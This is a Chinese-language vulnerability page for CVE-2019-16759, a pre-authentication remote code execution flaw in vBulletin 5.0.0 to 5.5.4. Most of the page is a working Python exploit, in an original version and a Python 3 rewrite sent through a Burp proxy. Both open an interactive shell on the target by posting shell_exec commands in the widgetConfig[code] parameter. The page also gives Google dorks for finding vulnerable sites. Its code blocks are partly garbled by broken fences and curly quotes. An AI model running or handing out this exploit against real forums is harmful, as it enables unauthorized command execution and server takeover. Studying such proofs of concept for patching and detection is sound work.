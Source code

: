 ```yaml
---
title: "（CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit"
id: zhfly3218
---
```


# （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit

## 一、漏洞简介

## 二、漏洞影响

影响版本：vBulletin 5.0.0~5.5.4

## 三、复现过程

```
poc如下:

#!/usr/bin/python

# vBulletin 5.x 0day pre-auth RCE exploit

# This should work on all versions from 5.0.0 till 5.5.4

# Google Dorks:

# - site:*.vbulletin.net

# - “Powered by vBulletin Version 5.5.4”

import requests

import sys

if len(sys.argv) != 2:

sys.exit(“Usage: %s <URL to vBulletin>” % sys.argv[0])

params = {“routestring”:“ajax/render/widget_php”}

while True:

```
try:

     cmd = raw_input("vBulletin$ ")

     params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"

     r = requests.post(url = sys.argv[1], data = params)

     if r.status_code == 200:

          print r.text

     else:

          sys.exit("Exploit failed! :(")

except KeyboardInterrupt:

     sys.exit(" Closing shell...")

except Exception, e:

     sys.exit(str(e)) 
``` 
```

将poc代码修改为python3使用的代码，并添加代理使用burpsuite抓包。修改的poc代码如下：

```
# -*-coding:utf-8 -*-

import requests

import sys

if len(sys.argv) != 2:

sys.exit(“Usage: %s <URL to vBulletin>” % sys.argv[0])

proxies ={

“http”:“[http://127.0.0.1:8080/](http://127.0.0.1:8080/)”

}

params = {“routestring”:“ajax/render/widget_php”}

while True:

try:

cmd = input(">>>Shell= “)

params[“widgetConfig[code]”] = “echo shell_exec(’”+cmd+”’); exit;"

r = requests.post(url = sys.argv[1], data = params, proxies=proxies)

if r.status_code == 200:

print(r.text)

```
 else:
           sys.exit("Exploit failed! :(")
 except KeyboardInterrupt:
      sys.exit("\nClosing shell...")
 except Exception as e:
      sys.exit(str(e)) 
``` 
```

远程代码执行漏洞的触发点是未经过验证的用户通过向index.php发送routestring参数，当routesting参数是ajax/render/widget_php，通过widgetConfig[code]执行远程代码，格式为echo shell_exec('"+cmd+"'); exit;

![image](../img/63bdb93855d69e47a2b7d6b355405e43.png)